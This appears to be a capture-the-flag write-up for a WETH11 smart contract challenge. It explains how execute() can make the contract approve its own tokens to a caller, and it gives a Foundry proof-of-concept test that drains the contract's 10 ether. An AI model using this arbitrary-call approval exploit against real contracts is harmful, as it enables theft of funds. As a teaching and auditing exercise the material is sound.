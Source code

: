 # Bug:
The function `execute()` can be used to call functions like `ERC20.approve()` with the `msg.sender` being itself, as long as the loan amount is 0. Bob can call the `approve()` to get back the tokens and then withdraw.


# POC (Foundry)
```solidity
// SPDX-License-Identifier: Manija
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "@openzeppelin/contracts/interfaces/IERC20.sol";

import "../src/WETH11.sol";

contract Weth11Test is Test {
    WETH11 public weth;
    address owner;
    address bob;

    function setUp() public {
        weth = new WETH11();
        bob = makeAddr("bob");

        vm.deal(address(bob), 10 ether);
        vm.startPrank(bob);
        weth.deposit{value: 10 ether}();
        weth.transfer(address(weth), 10 ether);
        vm.stopPrank();
    }

    function testHack() public {
        assertEq(
            weth.balanceOf(address(weth)),
            10 ether,
            "weth contract should have 10 ether"
        );

        vm.startPrank(bob);

        // hack time!

		bytes memory data = abi.encodeWithSignature(
			"approve(address,uint256)",
			bob,
			10 ether
		);

		weth.execute(address(weth), 0, data);

		weth.transferFrom(address(weth), bob, 10 ether);

		weth.withdraw(10 ether);

		// -----

        vm.stopPrank();

        assertEq(address(weth).balance, 0, "empty weth contract");
        assertEq(
            weth.balanceOf(address(weth)),
            0,
            "empty weth on weth contract"
        );

        assertEq(
            bob.balance,
            10 ether,
            "player should recover initial 10 ethers"
        );
    }
}

```

